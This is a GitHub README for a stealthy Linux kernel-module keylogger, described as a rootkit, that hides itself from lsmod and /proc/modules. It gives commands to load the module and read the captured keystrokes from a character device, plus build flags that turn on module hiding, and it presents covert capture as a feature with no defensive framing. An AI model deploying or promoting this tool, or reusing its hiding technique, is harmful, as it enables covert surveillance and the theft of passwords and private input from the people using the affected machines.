 # Keylog

A stealthy Linux kernel-based keylogger that hides itself from `lsmod` and
`/proc/modules`.

## Usage
This rootkit is in the form of a loadable kernel module. It receives keyboard
events from the kernel and outputs to a character device. Install using
`insmod`:

```console
$ insmod keylog
$ dmesg | tail -n1
[  498.484687] keylog: Registered device major number 249
$ mknod chrdev0 c 249 0  # create a character device, 249 is the major no.
$ cat chrdev0
dmesg | tail -n1

mknod chrdev0 c 249 0

cat chrdev0
```

## Build
Make sure you have `linux-headers` installed.

```console
$ make
```

To hide the module from kernel, compile with `-DHIDE_MODULE`. You can also
change the buffer size `BUFLEN` that is used to store key events. By default it
is 1024 bytes.

```console
$ KCPPFLAGS="-DHIDE_MODULE -DBUFLEN=2048" make
```

## Development
A Vagrant box with essential tools/packages is provided. Simply run the
following commands to build the box:

```console
$ vagrant up
$ vagrant ssh
vagrant@stretch:~$ cd /vagrant
```
